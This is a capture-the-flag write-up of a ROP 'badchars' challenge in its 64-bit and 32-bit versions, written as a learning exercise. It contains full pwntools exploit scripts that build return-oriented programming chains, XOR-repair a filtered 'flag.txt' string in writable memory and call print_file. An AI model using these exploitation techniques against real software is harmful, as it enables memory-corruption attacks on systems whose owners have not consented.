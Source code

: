 This is a Quick Writeup on **Badchars** challenge

## For x86_64 

Reversing pwnme function in libc,

![pwnme](./img/badchars/pwnme64.png)

we can clearly see that its replacing these chars ['x','a','.','g'] with *0xeb* in our payload .
if it changed our address in payload it will little hard but we will tackle it after creating first payload . now first we have to think how are we are going to make safe "flag.txt" transfer to print_file.
that function will definitely going to change our payload but we are not going to stop by that , we will some ROP gadget which will help to repair again the "flag.txt" .
Lets the hunt begin.
by viewing ROPgadgets with this command:

```shell
ROPgadget --binary ./badchars | grep "ret" |less
```

I found this gadgets:

```shell
0x00000000004004ee : ret (for movaps issue)
0x0000000000400628 : xor byte ptr [r15], r14b ; ret
0x0000000000400630 : sub byte ptr [r15], r14b ; ret
0x000000000040062c : add byte ptr [r15], r14b ; ret
0x0000000000400634 : mov qword ptr [r13], r12 ; ret
0x00000000004006a0 : pop r14 ; pop r15 ; ret
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006a3 : pop rdi ; ret
```
that xor ,sub,add,mov gadgets are already provided in useful gadget function for this challenge. or we can also simply see that we have there pop gadgets and value write or change gadgets so they are definitly going to useful in this task.
we need **ret** for just movaps issue.
we can use xor or add or sub to change the destroyed "flag.txt" which is now **"fl\xeb\xeb\xebt\xebt"** , r14 byte will change r15 particular byte depends on what location we give.
I am going to use Xor for this.

```python
>>>print(xor(b'flag.txt',b'fl\xEB\xEB\xEBt\xEBt'))
b'\x00\x00\x8a\x8c\xc5\x00\x93\x00'
```
We need a location to store our flag.txt .quick vmmap view:

![vmmap](./img/badchars/vmmap64.png)

I have chosen writing to place 0x601070.
now we have all things ready lets build the rop chain.
ropchain = 'a'*40 (usual from prev chals)
ropchain +=  ret (I am not going explain this)
ropchain +=  popr12,r13,r14,r15 (this will set reg's for our upcoming 2 gadgets mov & xor)
ropchain += 'flag.txt',0x601070(our qute location),\x8a,0x601070+2(location of "a" in flag.txt)
after that we similarly xor other bytes also , then push our location to rdi as print file needs it before calling fopen (see fucking function)
then vala call the printfile.

Here's the Exploit:
```python
# 0x00000000004004ee : ret (for movaps issue)
# 0x0000000000400628 : xor byte ptr [r15], r14b ; ret
# 0x0000000000400630 : sub byte ptr [r15], r14b ; ret
# 0x000000000040062c : add byte ptr [r15], r14b ; ret
# 0x0000000000400634 : mov qword ptr [r13], r12 ; ret
# 0x00000000004006a0 : pop r14 ; pop r15 ; ret
# 0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004006a3 : pop rdi ; ret
# bad chars x a . t

writto =0x601070
ret = p64(0x4004ee)
xory = p64(0x400628)
suby = p64(0x400630)
addy = p64(0x40062c)
mov = p64(0x400634)
r14r15 = p64(0x4006a0)
r12345 = p64(0x40069c)
rdi = p64(0x4006a3)
printf = p64(0x000400510)

badc = ['x','a','.','g']
for i in badc:
    print(f"{hex(ord(i))=}")
    
# >>> print(xor(b'flag.txt',b'fl\xEB\xEB\xEBt\xEBt'))
# b'\x00\x00\x8a\x8c\xc5\x00\x93\x00'

payload = flat(
    b"n"*40,
    ret,
    r12345,
    b'flag.txt',
    p64(writto),
    p64(0x8a),
    p64(writto+2),
    mov,
    xory,
    r14r15,
    p64(0x8c),
    p64(writto+3),
    xory,
    r14r15,
    p64(0xc5),
    p64(writto+4),
    xory,
    r14r15,
    p64(0x93),
    p64(writto+6),
    xory,
    rdi,
    p64(writto),
    printf,
)
io.sendline(payload)
```

## For x86 32 bit

Similar approach like 64 bit , but just payload is become bigger because regs only store 4 bytes and "flag.txt" is 8 bytes so we have to repeat it 2 times.

Vmmap:
![vmmap](./img/badchars/vmmap32.png)


Exploit goes here:
```python
# 0x08048547 : xor byte ptr [ebp], bl ; ret
# 0x0804854f : mov dword ptr [edi], esi ; ret
# 0x080485b8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
# 0x080485bb : pop ebp ; ret
# 0x0804839d : pop ebx ; ret
# bad chars a x . g
printf = p32(0x080483D0)
xory = p32(0x08048547)
mov = p32(0x0804854f)
popbig = p32(0x080485b8)
popbx = p32(0x0804839d)
popbp = p32(0x080485bb)
writto = 0x804a070

# >>>print(xor(b'flag.txt',b'fl\xEB\xEB\xEBt\xEBt'))
# b'\x00\x00\x8a\x8c\xc5\x00\x93\x00'

payload = flat(
    b'b'*44,
    popbig,
    p32(0x8a),
    b"flag",
    p32(writto),
    p32(writto+2),
    mov,
    xory,
    popbig,
    p32(0x8c),
    b'.txt',
    p32(writto+4),
    p32(writto+3),
    mov,
    xory,
    popbp,
    p32(writto+4),
    popbx,
    p32(0xc5),
    xory,
    popbp,
    p32(writto+6),
    popbx,
    p32(0x93),
    xory,
    printf,
    b"xxxx",
    p32(writto)
)
```

Valar Morghulis!!

